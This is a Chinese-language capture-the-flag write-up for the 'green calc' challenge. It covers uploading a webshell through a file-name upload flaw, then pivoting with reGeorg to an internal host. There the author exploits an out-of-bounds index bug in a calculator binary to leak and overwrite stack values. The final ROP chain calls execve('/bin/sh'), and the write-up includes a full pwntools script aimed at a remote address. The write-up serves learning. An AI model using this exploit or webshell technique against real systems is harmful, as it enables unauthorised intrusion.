## 题目

    green calc

## 分值

    300

## 类型

    web综合(pwn)

## 解题思路

显而易见，出题者为了向线上赛致敬，希望大家上传一个green hat。

存在上传漏洞，burp修改文件名，可以上传shell，遍历目录即可看到flag.php的内容，但是你会发现出题人的恶意。

upload中发现一个可执行文件，下载下来，看起来是一道pwn。

上传tunnel到目录，扫描内网，发现一台主机开启了4000端口，显而易见是帽子制作者给大家的礼物，这么显而易见的端口对不对。

`https://github.com/sensepost/reGeorg`

然后就变成了善良而单纯的pwn


提示是*Have you ever use Microsoft calculator?*这种提示，上网找信息能找到一个关于微软计算机开方的问题。题目可能是暗示运算可能存在问题。
首先打开IDA，发现程序大致如下：

这里由于提示，我们就尤其关注一下calc的内容

会发现开启了栈保护，并且每次都会清空s，
首先是**get_expr**，这个函数会将大部分的不合法字符串过滤掉，只读入+-*/%和所有的数字。

（get_expr细节）
init_pool也是一个初始化函数，将一个数组中的数据初始化为0。然后这里尤其关注一下parse_expr，这个函数是一个解析表达式的过程。windows的表达式出错就和这个密切相关，这里进行深入的了解:

存在一段可能让人疑惑的语句
```C
if ( (unsigned int)(*(_BYTE *)(i + expr) - 48) > 9 )
```
要将大于9（也就是为数字的时候）的过滤掉？仔细观察能够看到发现这里的变量类型为unsigned，也就是无符号的，所以只要小于48（也就是符号范围内）的都会被考虑（之前其他符号已经被过滤了）
明白之后继续看，会发现将单独出现的0都过滤了（防止出现除数为0）

这段要是直接理解起来的话意思为
 + 首先从传入的a2(开始为全0)中读取当前的数据v4，之后自己内容自增1
 + 然后以v4为下标，并且将换算得到的数据赋值过去，整体结构是这样的
```
--------------------------------------------------------------------------
|放入了数字个数    |第一个数字  |第二个数字  |......
--------------------------------------------------------------------------
a[0]                a[1]        a[2]       ......
```
数组以头部作为下标。(但是这个形式存在巨大的漏洞，见下分析)
那么现在我们回头看原先的calc函数的内容

也就能够明白了:array\_from\_1其实还是array数组，只不过是&array[1]而已，printf的时候，是通过判断array[0]中的数据，来决定自己要输出的内容的位置，从而从array_from_1中选取数据输出。
eval的内容如下

根据算法，发现了如下的漏洞:
 + 由于算法eval的运算法则为【使用当前的第一位array[0]作为下标进行取值】，所以当我们使用形如"\*400","-300"的写法的时候，**会将array[0]作为运算左值，array[1]作为运算右值，从而可以做到泄漏信息的目的**已知calc中的数组的起始地址为ebp-1440，而ebp-0xc处存放了一个canary，于是计算得知(1440 - 0xc)/4=357(除以4是因为一个int的大小为4)，于是当array[0]的值为358的时候，此时便会取到canary的具体值"0xdce1ae00"
 + 考虑到有输入过滤，所以首先排除stack中存入shellcode的想法，然后**考虑ret2lib的方法，所以要检查此时是否存在动态连接：**
   
   从图上可以发现，没有动态连接的部分，说明此程序是静态编译的，不能使用ret2lib的方法。但是相对的，就可以找到ROPgadget（也就是所谓的【跳板门】）从而构造execve("\bin\sh")
 + 关键的注入其实还是利用之前提到的泄漏的问题，如果我们通过+300能够**修改array[0]的值为符号后面指定的数字**那么+300+1的话就能够**通过修改了array[0]，从而在eval里面可以对特定的地址内容进行修改**,这样就完成了注入。
  为了测试是否能够注入成功，我们首先尝试导出返回值的内容:
  
  可以看到，此时的字符串的起始地址为:ebp-1036,而看到后面取值的时候：
  
  此时都为int四字节对其，则此时距离返回值的距离为1440/4=360,而为了能够输出此时的地址，看到printf的输出为
  
  也就是此时距离返回值地址为361(包括一个ebp),我们直接输入*362或者+361便可导出数据。测试成功后，接下来尝试修改一下返回值地址，将其修改成目的地址0x0804947B，看看看能否成功：
  
  成功了！这种修改甚至绕开了canary，这就更加的方便。接下来我们只要构造ROPgadget即可：
  最终目的是 构建execve('\bin\sh')，所以我们的目的自然是【产生int 0x80中断并且此时ebx必须指向执行的程序位置，也就是/bin/sh】，那么我们的手段应该是
 + 将eax的值最终提升为11
 + 往栈中写入数据'\bin\sh'
 + 将ebx的值指向一个栈的位置
 + 将ecx/edx的值进行置零（？）
 + 执行int 80
  为了实现第一条，首先要能够将eax的值变为0，并且能够立刻返回。这里下载了一个叫ROPgadget的脚本，虽然用着很不方便，但是也找到了一些内容:
```x86asm
    0808F2D3                 xor     eax, eax
    0808F2D5                 retn               ;此处可以将eax值置为0

    080908D0                 mov     eax, 7
    080908D5                 retn               ;此处可以增加eax的值，从而减少inc的次数

    0807cb7e                 nop  inc eax ; ret;可以通过反复跳转此步，将eax的值提升为11
```
然后为了实现能够将数据字符串放入栈中，我们可以直接同过往其中写入数据的方式，将/bin/sh写入数据栈中，但是此时为了能够让ebx正好指向这个栈的位置，我们需要将这个过程放在最后执行，然后通过寻找pop ebx 的方法将数据的地址放到：
```x86asm
    080701D0                 pop     edx
    080701D1                 pop     ecx
    080701D2                 pop     ebx
    080701D3                 retn
    ;此步骤可以将当前栈中的地址返回给ebx
```
由于此时是打开了ASTL的，所以我们得通过printf来将我们需要的目的数据泄漏才行。由于我们已知栈中的情况为

也就是说，此时通过加入数据可以通过返回值指向为0x080701d0,然后将edx，ecx，ebx值修改为我们想要的值（其中ebx的值要在最后计算出来）
然后
```x86asm
    08049a21                 int 0x80；触发中断
```
最后触发这个位置的中断，我们就可以完成我们的攻击。
那么综上所述，我们的栈应该变成如下的样子：

然后最后，每次都先获得相关值，通过计算出栈中值和当前值的offset，然后通过下一次输入数据的时候输入【当前地址+offset】完成地址的修改。
测试过程中发现，edx的值不去理会也没有太大问题。
附上代码
```python
#   -*- coding:utf-8
#!usr/bing.env  python
from pwn import *

DEBUG = 0
if DEBUG:
    context.log_level = 'debug'
    context.terminal = ['tmux','splitw','-h']
    ph = process("./calc")
    gdb.attach(ph,'b *0x08049433')
else:
    ph = remote('139.162.123.119',10100)
    # ph = process("./calc")

# array is the offset from the array to get index of stack

array = ['361','362','363','364','365','366','367',
        '368','369','370','371','372','373','360']
"""
array = ['361','362','363','364','365','366','367',
        '368','369','370','371','372','360']
"""
# stack record value that we need to change to

stack = [0x0808f2d3, 0x080908d0, 0x0807cb7e,
        0x0807cb7e, 0x0807cb7e, 0x0807cb7e,
        0x080701d0, 0x0, 0x0,
        0x0, 0x08049a21, u32('/bin'), u32('/sh\0')]
"""
stack = [0x0808f2d3, 0x080908d0, 0x0807cb7e,
        0x0807cb7e, 0x0807cb7e, 0x0807cb7e,
        0x080701d1, 0x0,
        0x0, 0x08049a21, u32('/bin'), u32('/sh\0')]
"""
ebp_offset = 0x10

def getStack():
    s = '+' + array[len(array)-1]
    # get the old ebp
    ph.send(s + '\n')
    num = int(ph.recv(1024))
    num += 0x100000000
    print "receive the ebp is %x and ebx is %x"%(num,num+ebp_offset)
    stack[9] = num + ebp_offset


def writeStack():

    for i in range(len(stack)):
        s = '+' + array[i]
        print "[*] - send " + s

        ph.send(s + '\n')
        num = int(ph.recv(1024))

        offset = stack[i] - num
        print "[*] - receive the %x,offset is %x"%(num, offset)

        if offset<0:
            s_ = s + '-' + str(-offset) + '\n'

        else:
            s_ = s + '+' + str(offset) + '\n'
        print "[*] - and send " + s_
        ph.send(s_)
        value = int(ph.recv(1024))
        if value<0:
            value+=0x100000000
        while value!=stack[i]:
            print "[!] the value is %x"%(value)
            offset = stack[i] - value
            if offset<0:
                ph.send(s + '-' + str(-offset) +'\n')
            else:
                ph.send(s + '+' + str(offset) + '\n')
            print "[!] go on send " + array[i]
            value = int(ph.recv(1024))
            if value<0:
                value+=0x100000000
        print "[!] new value is %x"%value
        print "-----------------------------"

    ph.send("=======================\n")

if __name__ == "__main__":
    print ph.recv(1024)
    getStack()
    writeStack()
    ph.interactive()

```
## **【总结】**

此题的设计告诉我们，即使出题人有多大的恶意，都不能被冲昏头脑，不管对面是不是让你出题的hmsec